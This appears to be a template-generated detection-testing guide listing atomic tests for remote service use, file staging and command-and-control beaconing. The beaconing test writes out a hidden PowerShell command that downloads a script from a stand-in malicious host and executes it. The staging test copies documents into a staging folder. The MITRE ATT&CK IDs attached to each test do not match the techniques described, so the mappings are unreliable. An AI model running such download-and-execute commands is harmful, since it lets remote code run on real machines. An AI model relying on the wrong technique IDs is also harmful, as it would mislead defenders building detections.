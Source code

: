 ### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of remote service usage for movement on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1156**


## ✅ T1157 – Staging files for exfiltration

### Description
Simulates staging files for exfiltration to evaluate detection capability for MITRE tactic **Collection**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
copy C:\Users\Public\Documents\*.docx D:\Staged\\
```

### Tool Used
CMD

### Expected Behavior
- Activity is logged via Sysmon or Windows Event Log
- Indicates a potential instance of staging files for exfiltration on the host

### Detection
- Alerts should be triggered by rules matching file creation or command-line patterns
- Mapped to MITRE ATT&CK: **T1157**


## ✅ T1158 – Beaconing to external command servers

### Description
Simulates beaconing to external command servers to evaluate detection capability for MITRE tactic **Command and Control**.

### ⚠️ Important Note
The following command is for **educational use only** and must be executed in an **isolated lab**. Do not use on production systems.

### Atomic Test
```cmd
powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString(\'http://malicious.site/c2.ps1\')"
```

